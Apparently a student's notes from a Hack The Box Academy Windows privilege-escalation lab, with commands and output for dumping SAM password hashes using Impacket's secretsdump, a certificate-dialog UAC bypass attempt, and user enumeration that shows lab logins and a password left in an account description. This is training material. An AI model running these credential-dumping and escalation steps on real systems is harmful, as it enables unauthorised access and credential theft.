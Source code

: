 ```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

## LAB

xfreerdp /v:10.129.25.32 /u:htb-student /p:HTB_@cademy_stdnt!

PS C:\Users\htb-student> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
ERROR: The system was unable to find the specified registry key or value.

1) cd c:\Tools

https://packetstormsecurity.com/files/14437/hhupd.exe.html

2) Run as administrator

3) Click on Show information about the publisher's certificate

Here we can see that the SpcSpAgencyInfo field is populated in the Details tab.

4) Go back to the General tab and see that the Issued by field is populated with a hyperlink

Click on it and then click OK, and the certificate dialog will close, and a browser window will launch.

5) Open Task Manager, we will see that the browser instance was launched as SYSTEM.

--> Browser not launched as SYSTEM

c:\>dir /S /B *.vhdx* == *.vhd* == *.vmdk*
File Not Found

c:\>where /R C:\ *.vmdk
INFO: Could not find files for the given pattern(s).

PS C:\Users\htb-student> Get-LocalUser

Name            Enabled Description
----            ------- -----------
Administrator   True    Built-in account for administering the computer/domain
DefaultAccount  False   A user account managed by the system.
Guest           False   Built-in account for guest access to the computer/domain
helpdesk        True
htb-student     True
htb-student_adm True
jordan          True
logger          True
mrb3n           True
sarah           True
sccm_svc        True
secsvc          True    Network scanner - do not change password: !QAZXSW@3edc
sql_dev         True